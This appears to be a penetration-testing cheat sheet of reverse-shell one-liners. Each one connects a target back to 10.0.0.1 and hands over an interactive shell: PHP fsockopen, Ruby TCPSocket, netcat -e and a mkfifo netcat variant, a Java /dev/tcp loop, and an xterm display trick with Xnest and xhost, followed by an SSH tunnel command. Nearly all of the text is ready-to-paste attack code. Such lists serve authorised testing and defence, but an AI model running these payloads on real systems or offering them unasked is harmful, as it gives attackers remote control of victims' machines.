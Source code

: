 PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```	
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
	nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Java
```	
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
```

xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
	xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```	
	Xnest :1
```

your’ll need to authorise the target to connect to you (command also run on your host):
```	
	xhost +targetip
```

## SSH Tunnels

Send data over ssh to port 9000 on target

```
ssh -L 8090:localhost:9000 james@123.123.123
```
